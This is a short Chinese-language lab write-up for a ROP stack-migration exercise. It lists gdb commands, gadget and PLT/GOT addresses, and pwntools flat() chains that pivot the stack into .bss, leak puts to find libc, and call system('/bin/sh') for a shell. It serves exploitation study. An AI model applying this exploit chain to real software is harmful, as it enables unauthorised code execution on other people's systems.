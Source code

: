 # Lab6 Migration

## 先備知識

## ROP Migration

## Solve

1. 先用`gdb$ checksec`查看 → Full RELRO ⇒ .got和.plt.got都唯讀，無法GOT hijacking
2. 找BOF return offset → 44，並還有16個bytes ( 4 gadget )可以輸入
    - pattc 10 0
    - crashof
3. 找buffer1 address  ( buffer2 address 就是 buffer1 + 0x100 )
    - `gdb$ readelf` → .data = 0x804a000、.bss = 0x804a00c
    - `gdb$ vmmap` 找 .bss的end address → 0x0804b000
    - `gdb$ x/30gx 0x0804b000-0x200` → 0x804ae00
4. `gdb$ elfsymbol` 找 read@plt address (因為第一次執行石要把第二段ROP chain讀進去)→ 0x8048380
5. `gdb$ elfsymbol` 找 puts@plt address (因為等等要leak時需要) → 0x8048390
6. 第一段 ROP 讓他可以read buf
    1. `gdb$ rop` 找 leave ; ret → 0x08048418 : leave ; ret
    2. read參數 → ebx = 0, ecx = buf, edx = 100 (要讀的長度)

    ⇒ `flat([buf, read_plt, leave_ret, 0, buf, 100])`

7. 第二段 ROP 取得put offset去推libc address
    1. `gdb$ rop` 找 pop 一個 register ; ret 的 → 0x0804836d : pop ebx ; ret
    2. `gdb$ got` 找 puts的got offset → 0x08049ff0 

    ⇒ flat([buf2, put_plt, pop1ret, put_got, read_plt, leave_ret, 0, buf2, 100])

8. 將put丟出來的put offset接收起來，並轉換成數字 → 0xf75a7ca0
※可以用 `x/i 0xf75a7ca0` 檢查 → 0xf75a7ca0 <_IO_puts>
9. 利用上面得到的put offset可以得到libc的位置
※用vmmap可以檢查是否正確
10. 第三段 ROP
    1. 用 `gdb$ off system` 取得system offset再加上libc address後就是system address

    ⇒ flat([buf,system,0,buf2+4*4,"/bin/sh"])
